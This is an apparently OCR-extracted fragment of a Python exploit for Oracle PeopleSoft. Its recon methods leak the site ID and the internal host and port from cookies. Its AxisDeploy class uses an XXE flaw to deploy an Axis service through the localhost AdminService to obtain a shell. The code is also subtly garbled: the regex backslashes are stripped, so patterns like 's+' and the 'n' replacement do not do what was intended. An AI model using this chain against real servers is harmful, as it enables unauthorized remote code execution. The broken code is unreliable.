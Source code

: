 ```

    def check_site_id(self):
        """Grabs the site ID and the local port.
        """
        if self.site_id:
            return

        r = self.get('/')
        m = self.matches(r, '/([^/]+)/signon.html')

        if not m:
            raise RuntimeError('Unable to find site ID')

        self.site_id = m[0]
        o('+', 'Site ID: ' + self.site_id)

    def check_local_infos(self):
        """Uses cookies to leak hostname and local port.
        """
        if self.local_port:
            return

        r = self.get('/psp/%s/signon.html' % self.site_id)

        for c, v in self.session.cookies.items():
            if c.endswith('-PORTAL-PSJSESSIONID'):
                self.local_host, self.local_port, *_ = c.split('-')
                o('+', 'Target: %s:%s' % (self.local_host, self.local_port))
                return

        raise RuntimeError('Unable to get local hostname / port')


class AxisDeploy(Recon):
    """Uses the XXE to install Deploy, and uses its two useful methods to get
    a shell.
    """

    def init(self):
        super().init()
        self.service_name = 'YZWXOUuHhildsVmHwIKdZbDCNmRHznXR' #self.random_string(10)

    def random_string(self, size):
        return ''.join(random.choice(string.ascii_letters) for _ in range(size))

    def url_service(self, payload):
        return 'http://localhost:%s/pspc/services/AdminService?method=%s' % (
            self.local_port,
            urllib.parse.quote_plus(self.psoap(payload))
        )

    def war_path(self, name):
        # This is just a guess from the few PeopleSoft instances we audited.
        # It might be wrong.
        suffix = '.war' if self.version and self.version &gt;= '8.50' else ''
        return './applications/peoplesoft/%s%s' % (name, suffix)

    def pxml(self, payload):
        """Converts an XML payload into a one-liner.
        """
        payload = payload.strip().replace('n', ' ')
        payload = re.sub('s+&lt;', '&lt;', payload, flags=re.S)
        payload = re.sub('s+', ' ', payload, flags=re.S)
```